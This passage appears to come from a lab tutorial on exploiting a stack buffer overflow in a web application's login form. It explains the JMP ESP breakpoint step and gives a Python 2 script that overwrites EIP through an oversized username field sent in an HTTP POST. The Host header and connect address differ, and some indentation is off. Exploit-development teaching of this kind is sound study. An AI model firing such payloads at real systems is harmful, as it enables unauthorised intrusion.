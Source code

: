 First, we set a breakpoint (F2) on the JMP ESP instruction we have just found in order to follow the execution of the instruction. We now let the application run.
![[jmp_address.png]]

We then update the eip variable in our exploit to point to 0x10090c83, due to little endianess we must place the address in reverse order. The exploit being used will look like this:
```python
#!/usr/bin/python2

import socket

 try:
	print "\nAttempting to send buffer..."

	filler = "A" * 780
	eip = "\x83\x0c\x09\x10"
	offset = "C" * 4
	buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))

	inputBuffer = filler + eip + offset + buffer



	content = b"username=" + inputBuffer + b"&password=A"


	buffer = "POST /login HTTP/1.1\r\n"
	buffer += "Host: 192.168.233.10\r\n"
	buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
	buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
	buffer += "Accept-Language: en-US,en;q=0.5\r\n"
	buffer += "Referer: http://192.168.233.10/login\r\n"
	buffer += "Connection: close\r\n"
	buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
	buffer += "Content-Length: "+str(len(content))+"\r\n"
	buffer += "\r\n"

	buffer += content

	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
	s.connect(("10.11.0.22", 80))
	s.send(buffer)
  
	s.close()

	print "\nSuccess!"

 except:
 	print "\nCould not connect"
```

